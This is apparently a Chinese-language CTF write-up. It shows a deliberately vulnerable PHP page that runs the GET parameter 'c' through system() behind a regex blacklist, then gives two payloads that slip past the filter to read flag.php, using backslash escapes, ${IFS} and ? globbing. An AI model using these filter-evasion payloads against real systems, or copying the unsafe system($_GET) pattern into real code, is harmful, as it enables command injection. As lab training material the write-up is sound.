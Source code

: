 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 18:21:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

数字

*

more

wget

less

head

sort

tail

sed

cut

tac

awk

strings

od

curl

`

%

\x09

\x26

\>

\<







### 第一种

利用\绕过字母

利用${IFS}绕过空格

```
?c=ls
```

![image-20250403161720486](./assets/image-20250403161720486.png)

```
?c=ta\c${IFS}fl\ag.php
```

![image-20250403161744237](./assets/image-20250403161744237.png)





### 第二种

利用?匹配命令

利用''绕过字母

```
?c=/bin/ca?${IFS}fl''ag.php
```

![image-20250403162254046](./assets/image-20250403162254046.png)